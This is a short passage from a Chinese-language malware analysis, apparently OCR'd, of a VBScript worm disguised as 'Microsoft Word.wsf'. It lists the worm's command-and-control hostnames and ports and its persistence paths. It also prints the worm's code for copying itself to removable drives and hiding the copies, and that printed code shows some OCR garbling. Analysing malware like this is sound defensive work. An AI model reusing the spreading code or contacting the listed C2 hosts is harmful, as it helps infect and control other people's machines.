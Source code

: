   
3.功能分析  
  
核心变量  

```
NH1=maroco.myq-see.com:862
NH2=maroco.linkpc.net:862
NH3=maroco.redirectme.net:862
Ar=Microsoft Word.WsF
NHR=%appdata%
NHV=\Microsoft Office
NHS=startup
NTP=%temp%
US1=TRUE - 
US2=FALSE - 
WR=wscript.exe //D //
WX=wscript.shell
WJ=scripting.filesystemobject
WL=msxml2.xmlhttp
```

  
  
3.1. 传播方式  
  
通过对这个家族的传播方式分析，其有以下传播方式：  

```
U盘
电子邮件
.lnk快捷方式
```

  
其代码里面有相关的感染代码，其功能为：  

```
扫描计算机上的所有可移动磁盘，将当前 VBScript 文件复制到这些磁盘的根目录
将其重命名为 &#34;microsoft word.wsf&#34;
如果磁盘根目录中已经存在名为 &#34;microsoft word.wsf&#34; 的文件，则将其设置为 &#34;隐藏&#34; 和 &#34;只读&#34;


创建.lnk文件，诱导用户点击
```


```
if drive.isready=true then if drive.freespace>0 then if drive.drivetype=1 then aw.copyfile wscript.scriptfullname,drive.path&chr(92)&microsoft word.wsf,true
for each drive in aw.drives
if drive.isready=true then if drive.freespace>0 then if drive.drivetype=1 then aw.copyfile wscript.scriptfullname,drive.path&chr(92)&microsoft word.wsf,true
if aw.fileexists(drive.path&chr(92)&microsoft word.wsf)then aw.getfile(drive.path&chr(92)&microsoft word.wsf).attributes=2+4
end if
for each file in aw.getfolder(drive.path&chr(92)).files
if not au then exit for
end if
```
